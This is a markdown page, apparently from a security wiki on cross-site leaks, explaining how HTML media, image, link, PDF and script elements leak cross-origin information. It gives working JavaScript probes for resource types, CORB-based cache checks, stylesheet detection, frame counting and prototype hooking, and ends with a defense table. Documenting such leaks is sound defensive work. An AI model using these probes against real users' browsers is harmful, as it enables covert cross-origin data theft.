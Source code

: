 +++
title = "Element leaks"
description = ""
category = "Attack"
abuse = [
    "HTMLElement",
]
defenses = [
]
menu = "main"
weight = 2
+++

Some HTML Elements leak data cross origin.

- [HTMLMediaElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLMediaElement) leaks the media `duration` and the `buffered` times.
- [HTMLVideoElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLVideoElement) leaks the `videoHeight` and `videoWidth` 
  some browsers may also have `webkitVideoDecodedByteCount`, `webkitAudioDecodedByteCount` and `webkitDecodedFrameCount`
- [getVideoPlaybackQuality()](https://developer.mozilla.org/en-US/docs/Web/API/VideoPlaybackQuality) leaks the `totalVideoFrames`.
- [HTMLImageElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement) leaks the `height` and `width` but if the image is invalid they will be 0 
  and [decode()](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/decode) will get rejected.

Some HTML Elements have properties that predictability change when a valid resource is used this can be checked to detect what the resource type is.
```javascript
async function getType(url) {
    // Detect if resource is audio or video
    let media = document.createElement("video");
    media.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (media.videoWidth) {
    return "video";
    } else if (media.duration) {
    return "audio"
    }
    // Detect if resource is an image
    let image = new Image();
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## Abusing CORB
[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) is a feature of Chrome that makes reposnses empty if the wrong content type is used.
This means that if the type is wrong its not cached.
A ifCached function can be found at [Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}})
```javascript
async function isType(url, type = "script") {
  let error = false;
  // Purge url
  await ifCached(url, true);
  // Attempt to load resource
  let e = document.createElement(type);
  e.onerror = () => error = true;
  e.src = url;
  document.head.appendChild(e);
  // Wait for it to be cached if its allowed by CORB
  await new Promise(resolve => setTimeout(resolve, 500));
  // Cleanup
  document.head.removeChild(e);
  // Fix for "images" that get blocked differently.
  if (error) return false
  return ifCached(url);
}
```

## Abusing getComputedStyle
[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle) can be used to leak CSS style sheets.  
This function just checks if there has been a style appled to the body.
```javascript
async function isCSS(url) {
    let link = document.createElement('link');
    link.rel = 'stylesheet';
    link.type = 'text/css';
    link.href = url;
    let style1 = JSON.stringify(getComputedStyle(document.body));
    document.head.appendChild(link);
    await new Promise(resolve => setTimeout(resolve, 500));
    let style2 = JSON.stringify(getComputedStyle(document.body));
    document.head.removeChild(link);
    return (style1 !== style2);
}
```
## PDF
There are [Open URL Parameters](https://bugs.chromium.org/p/chromium/issues/detail?id=64309#c113) that allow some control over the content such as `zoom`, `view`, `page`, `toolbar`.  
For chrome a PDF can be detected using [frame counting]({{< ref "/docs/attacks/frame-counting.md" >}}) because an `embed` is used internally.
```javascript
async function isPDF(url) {
    let w = open(url);
    await new Promise(resolve => setTimeout(resolve, 500));
    let result = (w.length === 1);
    w.close();
    return result;
}
```
{{< hint warning  >}} There will be false positives if the page has other embeds.{{< /hint >}}

## Script tag
Leaks the contents of a cross origin script during execution.  
The contents of a function can be leaked using `.toString()` and variables may also be assigned to the `window`.  
Even if the data is not acessible from the window its still possible to hook a function that it uses.  
```javascript
let hook = window.Array.prototype.push;
window.Array.prototype.push = function() {
    console.log(this);
    return hook.apply(this, arguments);
}
```
{{< hint tip >}} A paper was made using this attack [link](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf) {{< /hint >}}



## Defense

|       Attack Alternative        | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                          |
| :-----------------------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :-----------------------------------------------------------------------------------------------------------------------------------------------------: |
|   Type leaks    |                                         ✔️                                          |                          ❌                          |                                 ❌                                 |                                                                                | |
